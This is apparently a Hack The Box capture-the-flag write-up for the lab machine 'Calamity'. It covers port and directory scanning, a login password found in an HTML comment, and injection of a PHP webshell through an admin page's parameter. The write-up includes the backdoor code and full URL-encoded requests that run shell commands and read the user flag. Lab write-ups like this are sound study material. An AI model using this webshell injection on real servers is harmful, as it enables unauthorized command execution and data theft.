

# MACHINE CHALLENGE: CALAMITY

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.27
OS: Linux
```

### PORTSCANNING w/ NMAP

```
$ sudo nmap -A -sS -T4 10.10.10.27 > nmap.out

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
```

So we have two open services - ssh(22) and http(80).

### ENUMERATING PORT 80 (HTTP)

Visiting the webpage we are greeted with "Brotherhood Software" splash screen..

```
http://10.10.10.27
```


##### GOBUSTER

Bruteforce enumeration using `gobuster`..

```
$ gobuster -e -u 10.10.10.27 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.27/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 301,302,307,200,204
[+] Expanded     : true
=====================================================
http://10.10.10.27/uploads (Status: 301)
```

Okay, so we found a directory called `uploads`.


Looks almost like a temp directory that other users are uploading their attack
scripts?

##### DIRBUSTER

Okay, let's try other enumeration tools.

```
$ dirb http://10.10.10.27 /usr/share/wordlists/dirb/small.txt -x /usr/share/wordlists/dirb/extensions_common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Dec 24 02:10:11 2017
URL_BASE: http://10.10.10.27/
WORDLIST_FILES: /usr/share/wordlists/dirb/small.txt
EXTENSIONS_FILE: /usr/share/wordlists/dirb/extensions_common.txt | ()(.asp)(.aspx)(.bat)(.c)(.cfm)(.cgi)(.com)(.dll)(.exe)(.htm)(.html)(.inc)(.jhtml)(.jsa)(.jsp)(.log)(.mdb)(.nsf)(.php)(.phtml)(.pl)(.reg)(.sh)(.shtml)(.sql)(.txt)(.xml)(/) [NUM = 29]

-----------------

GENERATED WORDS: 959                                                           

---- Scanning URL: http://10.10.10.27/ ----
+ http://10.10.10.27/admin.php (CODE:200|SIZE:451)                             
+ http://10.10.10.27/icons/ (CODE:403|SIZE:292)                                
+ http://10.10.10.27/index.html (CODE:200|SIZE:514)                            
==> DIRECTORY: http://10.10.10.27/uploads/                                     
+ http://10.10.10.27/uploads/ (CODE:200|SIZE:2876)                             
                                                                               
---- Entering directory: http://10.10.10.27/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Dec 24 03:44:49 2017
DOWNLOADED: 27811 - FOUND: 4
```

Now this is interesting.. we found something called `admin.php` that looks like
something fun to attack. `uploads/` seems like something we'll need to leverage
as well.


##### BURPSUITE

Let's see what we can learn by observing the request/response of `admin.php`
through the eyes of `burpsuite`.

```
<REQUEST>
GET /admin.php HTTP/1.1
Host: 10.10.10.27
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Sun, 24 Dec 2017 07:25:43 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 451
Connection: close
Content-Type: text/html; charset=UTF-8
<html><body>
<form method="post">
Password: <input type="text" name="user"><br>
Username: <input type="password" name="pass">
  <input type="submit" value="Log in to the powerful administrator page">
<!-- password is:skoupidotenekes-->
</form> 
</body></html>
</RESPONSE>
```

Seriously? The password is embedded as a comment?

```
<REQUEST>
POST /admin.php HTTP/1.1
Host: 10.10.10.27
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.27/admin.php
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
user=skoupidotenekes&pass=admin
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Sun, 24 Dec 2017 07:34:17 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 467
Connection: close
Content-Type: text/html; charset=UTF-8
<html><body>
<form method="post">
Password: <input type="text" name="user"><br>
Username: <input type="password" name="pass">
  <input type="submit" value="Log in to the powerful administrator page">
<!-- password is:skoupidotenekes-->
</form> 
</body></html>
GET OUT OF HERE
</RESPONSE>
```

Well, we're going to have to figure out what the username it is expecting.

##### HYDRA

```
$ hydra 10.10.10.27 -s 80 http-form-post "/:user=^USER^&pass=^PASS^:GET OUT OF HERE" -p skoupidotenekes -l admin
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-24 02:42:15
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-post-form://10.10.10.27:80//:user=^USER^&pass=^PASS^:GET OUT OF HERE
[80][http-post-form] host: 10.10.10.27   login: admin   password: skoupidotenekes
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-12-24 02:42:17
```

Okay, so while building the `hydra` command, I realized that the form fields
may be labelled `password` and then `user`, but in fact the password field is
submitted as the username and the user field is submitted as the password.
`hydra` confirms this is a valid username/password pair, so we just need to
enter it as such.

Here is what we see after "logging in"..



##### BURPSUITE AGAIN

```
<REQUEST>
POST /admin.php HTTP/1.1
Host: 10.10.10.27
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.27/admin.php
Cookie: adminpowa=noonecares
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
user=admin&pass=skoupidotenekes
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Sun, 24 Dec 2017 07:50:19 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 927
Connection: close
Content-Type: text/html; charset=UTF-8
<html>
<title>GOT U BEEJAY</title>
<body>
TADAA IT HAS NOTHING
<br>
what were you waiting for dude ?you know I aint finished creating<br>
xalvas,the boss said I am a piece of shit and that I dont take my job seriously...but when all this is set up...Ima ask for double the money<br>
just cauz he insulted me <br>
Maybe he's still angry at me deleting the DB on the previous site...he should keep backups man ! 
<br>
anyway I made an html interpreter to work on my php skills !
It wasn't easy I assure you...I'm just a P-R-O on PHP !!!!!!!!!
<br>
access in here is like 99% secure ,but even if that 1% reaches this page ,there's nothing they can do ! 
<br>
html is super-harmless to our system!
Try writing some simple stuff ...and see how difficult my job is and how underpaid I am
<form method="get">
Your HTML: <input type="text" name="html"><br>
  <input type="submit" value="SHOW ME DA PAGE">
</form> 
</body></html>
</RESPONSE>
```

Giving "foo" in the user field..

```
<REQUEST>
GET /admin.php?html=foo HTTP/1.1
Host: 10.10.10.27
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.27/admin.php
Cookie: adminpowa=noonecares
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Sun, 24 Dec 2017 07:52:59 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 930
Connection: close
Content-Type: text/html; charset=UTF-8
<html>
<title>GOT U BEEJAY</title>
<body>
TADAA IT HAS NOTHING
<br>
what were you waiting for dude ?you know I aint finished creating<br>
xalvas,the boss said I am a piece of shit and that I dont take my job seriously...but when all this is set up...Ima ask for double the money<br>
just cauz he insulted me <br>
Maybe he's still angry at me deleting the DB on the previous site...he should keep backups man ! 
<br>
anyway I made an html interpreter to work on my php skills !
It wasn't easy I assure you...I'm just a P-R-O on PHP !!!!!!!!!
<br>
access in here is like 99% secure ,but even if that 1% reaches this page ,there's nothing they can do ! 
<br>
html is super-harmless to our system!
Try writing some simple stuff ...and see how difficult my job is and how underpaid I am
<form method="get">
Your HTML: <input type="text" name="html"><br>
  <input type="submit" value="SHOW ME DA PAGE">
</form> 
</body></html>
foo
</RESPONSE>
```

Okay.. so now what? Some sort of exploit that takes advantage of GET requests?
Or vulnerabilities such as cross-site scripting to make some code execute?

### OWN USER

So now that we have a way of injecting what ever code we want, what if we fed
it a script like this one?

```
https://raw.githubusercontent.com/JohnTroony/php-webshells/development/simple-backdoor.php

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
<!--    http://michaeldaw.org   2006    -->
```

So we can inject this script into the admin.php page and feed it a command
like `ls /home` to see what users we have:

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=ls+%2Fhome
```

.. and we get:

```
xalvas
```

Let's see what `xalvas` has in his home directory..

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=ls+-l+%2Fhome%2xalvas
```

```
total 3148
drwxr-xr-x 2 xalvas xalvas    4096 Jun 27 13:07 alarmclocks
drwxr-x--- 2 root   xalvas    4096 Jun 29 14:00 app
-rw-r--r-- 1 root   root       225 Jun 27 18:16 dontforget.txt
-rw-r--r-- 1 root   root      1730 Dec 25 00:44 intrusions
drwxrwxr-x 4 xalvas xalvas    4096 Jun 27 18:09 peda
-rw-r--r-- 1 xalvas xalvas 3196724 Jun 27 12:23 recov.wav
-r--r--r-- 1 root   root        33 Jun 27 18:19 user.txt
```

Let's recover the `user.txt` flag first before we explore the other files that
might help us escalate our priviledges to get root..

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=cat+%2Fhome%2Fxalvas%2Fuser.txt
```

```
0790e7be60d5cd7faeeb9ac550762e5e
```

Neat.. so we got user. Now we need to see how to get root.

### OWN MACHINE

Let's poke around and see what other information we can obtain:

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=ls+-l
```

```
total 276
-r--r--r-- 1 www-data root   1865 Jun 27 11:36 admin.php
-r--r--r-- 1 www-data root  56837 Jun 27 11:35 bg.png
-r--r--r-- 1 www-data root    514 Jun 27 13:18 index.html
-r--r--r-- 1 www-data root 212864 Jun 27 11:35 leet.png
drwxrwxrwx 2 www-data root   4096 Dec 25 01:16 uploads
```

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=pwd
```

```
/var/www/html
```

```
http://10.10.10.27/admin.php?html=<%3Fphp++if(isset(%24_REQUEST['cmd'])){+++++++++echo+"<pre>"%3B+++++++++%24cmd+%3D+(%24_REQUEST['cmd'])%3B+++++++++system(%24cmd)%3B+++++++++echo+"<%2Fpre>"%3B+++++++++die%3B+}++%3F>&cmd=cat+%2Fhome%2Fxalvas%2Fdontforget.txt
```

```
peda keeps commads history in the working dir...you should make a dir in /tmp and work from there
keep in mind that tmp is not listable,so other users cannot see your files and folders (if you dont use extrmely simple names)
```

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=cat+%2Fhome%2Fxalvas%2Fintrusions
```

```
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 04:55:42.796288
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:22:11.228988
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:23:23.424719
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-29 02:43:57.083849
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 02:48:47.909739
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.202315
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.780685
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 06:25:06.209358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.329358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.330115
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.508710
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.510537
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python3    ...PROCESS KILLED AT 2017-12-24 10:30:28.836132
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:35:06.831325
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:38:06.450972
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:38:26.640503
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-12-25 00:44:43.524795
```

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=ls+-l+%2Fhome%2Fxalvas%2Fpeda
```

```
total 216
-rw-rw-r-- 1 xalvas xalvas    157 Jun 27 18:09 LICENSE
-rw-rw-r-- 1 xalvas xalvas   1162 Jun 27 18:09 README
-rw-rw-r-- 1 xalvas xalvas   1939 Jun 27 18:09 README.md
drwxrwxr-x 3 xalvas xalvas   4096 Jun 27 18:09 lib
-rw-rw-r-- 1 xalvas xalvas 199072 Jun 27 18:09 peda.py
-rw-rw-r-- 1 xalvas xalvas   2077 Jun 27 18:09 python23-compatibility.md
```

```
http://10.10.10.27/admin.php?html=%3C%3Fphp++if(isset(%24_REQUEST[%27cmd%27])){+++++++++echo+%22%3Cpre%3E%22%3B+++++++++%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+++++++++system(%24cmd)%3B+++++++++echo+%22%3C%2Fpre%3E%22%3B+++++++++die%3B+}++%3F%3E&cmd=ls+-l+%2Fhome%2Fxalvas%2Falarmclocks
```

```
total 5708
-rw-r--r-- 1 root root 3196668 Jun 27 13:07 rick.wav
-rw-r--r-- 1 root root 2645839 Jun 27 13:07 xouzouris.mp3
```

##### PEDA?

```
PEDA - Python Exploit Development Assistance for GDB

Version: 1.0

Release: special public release, Black Hat USA 2012

0. Credits
    - Huy Phan (pdah) for reviewing code

1. Introduction
PEDA is a Python GDB script with many handy commands to help speed up 
exploit development process on Linux/Unix. It is also a framework for 
writing custom interactive Python GDB commands.
```

### RETIRED

Unfortunately I wasn't able to progress to get the root.txt before the machine
was retired. Would be interesting to read up on other people's write ups to
see what would have been the next steps for priviledge escalation.

```
https://reboare.github.io/hackthebox/calamity.html
```

Seems like I lucked out by getting the user.txt as I only dumped the contents
of the file without actually discovering the user password was in the audio
files in the user's home directory and logging in. The remaining work to get
root.txt seems quite involved and required a buffer overflow attack against an
executable within the user's home directory.
